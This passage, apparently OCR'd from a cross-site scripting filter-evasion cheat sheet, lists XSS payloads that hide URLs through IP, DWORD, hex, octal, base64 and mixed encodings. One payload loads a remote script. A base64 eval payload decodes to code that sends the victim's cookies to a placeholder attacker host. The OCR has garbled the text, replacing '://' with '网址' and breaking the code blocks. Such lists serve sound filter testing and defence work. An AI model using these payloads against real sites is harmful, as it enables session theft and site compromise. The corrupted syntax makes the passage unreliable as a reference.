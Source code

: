 This XSS still worries me, as it would be nearly impossible to stop this without blocking all active content:

```js
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

URL String Evasion
Assuming http网址www.google.com/ is programmatically disallowed:

IP Versus Hostname

```js
<A HREF="http网址66.102.7.147/">XSS</A>
```

URL Encoding

```js
<A HREF="http网址%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>
```

DWORD Encoding
Note: there are other of variations of Dword encoding - see the IP Obfuscation calculator below for more details:

```js
<A HREF="http网址1113982867/">XSS</A>
```

Hex Encoding
The total size of each number allowed is somewhere in the neighborhood of 240 total characters as you can see on the second digit, and since the hex number is between 0 and F the leading zero on the third hex quotet is not required):

```js
<A HREF="http网址0x42.0x0000066.0x7.0x93/">XSS</A>
```

Octal Encoding
Again padding is allowed, although you must keep it above 4 total characters per class - as in class A, class B, etc…:

```js
<A HREF="http网址0102.0146.0007.00000223/">XSS</A>
```

Base64 Encoding

```js
<img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">
```

Mixed Encoding
Let’s mix and match base encoding and throw in some tabs and newlines - why browsers allow this, I’ll never know). The tabs and newlines only work if this is encapsulated with quotes:

```js
<A HREF="h
tt  p://6	6.000146.0x7.147/">XSS</A>

Protocol Resolution Bypass
// translates to http网址 which saves a few more bytes. This is really handy when space is an issue too (two less characters can go a long way) and can easily bypass regex like (ht|f)tp(s)?:// (thanks to Ozh for part of this one). You can also change the // to \\\\. You do need to keep the slashes in place, however, otherwise this will be interpreted as a relative path URL.

<A HREF="//www.google.com/">XSS</A>
```
Google “feeling lucky” part 1.